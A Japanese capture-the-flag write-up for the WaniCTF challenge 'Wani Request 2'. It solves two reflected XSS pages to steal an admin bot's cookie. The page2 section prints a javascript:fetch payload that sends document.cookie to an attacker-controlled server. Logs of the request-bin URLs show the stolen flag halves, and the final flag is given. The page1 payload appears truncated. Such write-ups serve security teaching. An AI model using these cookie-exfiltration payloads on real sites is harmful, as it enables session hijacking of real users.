




# 4.Wani Request 2

```txt
XSS Challenge !!
https://request2.web.wanictf.org/
チャレンジは二つです。
あどみんちゃんのクッキーを手に入れてください。
Wani Request 1 と同じくRequestBinなどを利用してみましょう。

Writer : nkt
```

## Solution

問題にアクセスすると、トップページに以下のようなコメントが表示されて ページが2つあります。

```txt
challengeは2つあります。両方クリアするとFLAGが完成します。
形式 : FLAG{???-???} (page1 : FLAG{???, page2 : -???})
```




問題文より、XSS問題ということがわかっているので、それを踏まえて推測していきます。

### page1
まず、page1 を見てみると、入力欄に入力した内容が `wani` パラメータに入れられて、パラメータの中身をそのまま出力しています。

なので試しに `">` と挿入してみると XSS が発火しました。



なので今回も、サーバを用意して Cookie にflagがあると推測してサーバに遅らせます。

ペイロードは、以下のようにします。

```javascript
">
```

このペイロードを入力欄に入力して、送信すると用意したサーバに送られてきたレスポンスの Cookie にflagを半分を得ることができました。

```http
https://en1izb0icnjm8x7.m.pipedream.net/?cookie=flag1=FLAG{y0u_4r3_x55
```

### page2

次に page2 を見てみると、URL を入力する欄があります。

ここにも XSS があると思われるので 入力欄に、`javascript:alert(3)` のようなペイロードを挿入してみると XSS が発火しました。



なので page1 のように、用意したサーバに Cookie を送信させるように以下のようなペイロードを入力欄に入れて送信させます。

```javascript
javascript:fetch(`https://(MyServer))/?cookie=${document.cookie}`);
```

すると、レスポンスの Cookie にflagを半分を得ることができました。

```http
https://en1izb0icnjm8x7.m.pipedream.net/?cookie=flag2=-60d_c75a4c80cf07}
```

## Flag

```txt
FLAG{y0u_4r3_x55-60d_c75a4c80cf07}
```
